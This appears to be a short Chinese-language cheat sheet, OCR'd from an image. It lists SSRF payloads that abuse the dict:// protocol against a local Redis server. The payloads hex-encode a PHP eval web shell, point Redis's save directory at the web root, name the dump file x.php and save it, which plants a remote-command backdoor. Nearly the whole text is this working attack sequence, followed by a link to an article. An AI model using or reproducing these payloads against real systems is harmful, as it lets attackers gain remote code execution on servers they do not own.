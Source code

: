 ```
url=dict://127.0.0.1:6379/info
```

字符串转16进制

```
<?php eval($_POST[x]);?>
```

```
\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e
```

```
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```

```
url=dict://127.0.0.1:6379/config:set:shell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e"
```

```
url=dict://127.0.0.1:6379/config:set:dbfilename:x.php
```

```
url=dict://127.0.0.1:6379/save
```

# 好文章

https://www.t00ls.com/articles-41070.html
